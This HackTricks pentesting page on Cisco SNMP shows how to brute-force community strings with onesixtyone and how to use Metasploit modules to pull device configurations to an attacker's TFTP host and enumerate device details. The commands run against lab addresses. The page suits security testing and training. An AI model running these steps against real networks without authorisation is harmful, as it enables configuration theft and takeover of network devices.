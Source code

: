 # Cisco SNMP

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

This page was copied from [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

## Configuration exfiltration and enumeration via SNMP <a href="#e21c" id="e21c"></a>

**SNMP (Simple Network Management Protocol)** is a protocol that allows you to monitor the status of devices on a computer network. It can be network equipment, IP phones, corporate servers or anything else.

**SNMP uses the UDP transport layer protocol with port numbers 161/UDP and 162/UDP.** So-called community strings are used to refer SNMP agents to the server. These are, shall we say, special passwords for communicating with the SNMP server. **Community strings have either RO (read-only) or RW (read-write) permissions.**

**Actually, SNMP can not only monitor the equipment status, but also manage it in full: dump configs, change the configuration, etc.** If a pentester can look up the value of community strings, he actually gains access to the equipment. **However, it all depends on which string he bruteforced— to RO or RW community string.**

**Bruteforce community strings can be implemented using the** [**onesixtyone**](https://github.com/trailofbits/onesixtyone) **utility.** It will take as input the dictionary for bruteforcing and the IP addresses of the target hosts. The targets will be:

* **10.10.100.10 — Cisco vIOS Switch**
* **10.10.100.254 — Cisco vIOS Router**

```
~$ onesixtyone -c communitystrings -i targets
```

We found out what community strings are used on those devices. This opens the way for us to exploititation.

### 8.1 cisco\_config\_tftp <a href="#1dbf" id="1dbf"></a>

With the Metasploit framework, namely the **cisco\_config\_tftp** module, you can pull the device configuration by knowing the value of the community string. The string that has the rights to the RW is **private**.

We will need the following:

* **RW community string (COMMUNITY)**
* **Attacker’s IP address (LHOST)**
* **Target equipment IP address (RHOSTS)**
* **the path in which the module outputs the configuration of the device (OUTPUTDIR)**

```bash
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set COMMUNITY private
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set RHOSTS 10.10.100.10
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set LHOST 10.10.100.50
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set OUTPUTDIR /home/necreas1ng/snmp
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > exploit
```

After starting the module, the host configuration with address 10.10.100.10 (10.10.100.10.txt) will be downloaded to the specified folder.

![](<../../.gitbook/assets/image (223).png>)

### 8.2 snmp\_enum <a href="#3429" id="3429"></a>

With this module you can find out information about the target hardware. Everything is exactly the same: specify **COMMUNITY** (by the way, even a string with **RO permissions will do**) and the IP address of the target device.

```bash
msf6 auxiliary(scanner/snmp/snmp_enum) > set COMMUNITY public
msf6 auxiliary(scanner/snmp/snmp_enum) > set RHOSTS 10.10.100.10
msf6 auxiliary(scanner/snmp/snmp_enum) > exploit
```

<figure><img src="../../.gitbook/assets/image (218).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦 - </strong></a><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️ - </strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
